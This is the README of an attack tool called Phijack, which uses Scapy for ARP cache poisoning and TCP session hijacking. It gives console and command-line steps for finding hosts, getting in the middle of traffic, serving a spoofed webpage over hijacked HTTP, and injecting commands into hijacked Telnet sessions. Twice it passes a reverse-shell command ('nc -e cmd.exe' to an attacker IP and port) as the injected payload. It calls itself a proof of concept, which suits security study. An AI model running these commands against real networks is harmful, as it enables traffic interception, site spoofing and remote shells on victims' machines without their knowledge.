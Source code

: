 # Phijack

![Phijack](img/phijack.png)

## An Attack Tool for TCP Session Hijacking

The Transmission Control Protocol (TCP) is one of the main protocols of the Internet Protocol (IP) suite. As a transport-layer protocol, it allows applications to communicate with each other over a network. The connection-oriented nature of TCP leads to potential vulnerabilities when an attacker gains unauthorized access to an established session. Using Scapy, a tool was created to demonstrate TCP session hijacking attacks over a network. We demonstrate a man-in-the-middle attack through ARP cache poisoning, which is followed up by TCP session hijacking to attack unencrypted application-layer protocols. We present two proof-of-concept attacks: website spoofing through hijacking the HTTP protocol, and remote code execution through hijacking the Telnet protocol.

## Interface

`phijack.py` provides an interactive console. To view attack options, use the `SHOW OPTIONS` command. The default attack is a host discovery ARP scan. The two basic parameters, `IFACE` and `ATTACK`, are always required. The attack-specific parameters are listed under Attack Parameters.

For instance, the following configures a Telnet session hijacking attack:

```
[Phijack] > SET ATTACK HIJACK
ATTACK => hijack

[Phijack] > SET IFACE eth1
IFACE => eth1

[Phijack] > SET TARGET 192.168.99.1
TARGET => 192.168.99.1

[Phijack] > SET GATEWAY 192.168.99.102
GATEWAY => 192.168.99.102

[Phijack] > SET PROTO telnet
PROTO => telnet

[Phijack] > SET CMD nc -e cmd.exe 192.168.99.101 1337
CMD => nc -e cmd.exe 192.168.99.101 1337

[Phijack] > RUN
...
```

Alternatively, the `arp_poisoning.py` and `tcp_hijacking.py` modules take in command-line parameters.

## Proof of Concept

### Discovery

The following command can be used to discover hosts on the network using an ARP scan.

`python3 arp_poisoning.py discover 192.168.28.0/24`

![ARP Scan](img/arp_scan.png)

### ARP Poisoning

Provide the victim IP and the gateway IP.

`python3 arp_poisoning.py attack 192.168.213.212 192.168.213.22`

![ARP Poisoning](img/mitm.png)

All the subsequent attacks rely on first achieving a man-in-the-middle attack via ARP poisoning.

![ARP Table Before and After](img/arp_spoofed.png)

### HTTP Session Hijacking

The attacker returns an arbitrary webpage (`poc.html`) when the victim sends a HTTP GET request.

The legitimate website hosted on port 80:

![Legitimate Website](img/legit_website.png)

Script output:

![Script Output](img/http_hijacking.png)

After successful attack, the victim sees the attacker's website instead:

![Attacker Website](img/spoofed_site.png)

### Telnet Session Hijacking

The attacker hijacks an established Telnet session to execute arbitrary commands. For example, the following executes `nc -e cmd.exe 192.168.213.223 4444`, giving the attacker a reverse shell into the Telnet server.

`python3 tcp_hijacking.py 192.168.213.212 192.168.213.197 telnet "nc -e cmd.exe 192.168.213.223 4444"`

![Remote Command Execution](img/reverse_shell_with_script_output.png)

Script output:

![Telnet Hijacking](img/telnet_hijacking.png)

Reverse shell:

![Reverse Shell](img/reverse_shell.png)

From the perspective of the victim, he/she has lost connection to the Telnet server, and is not aware of the presence of the attacker.

![Victim POV](img/telnet_hijacked.png)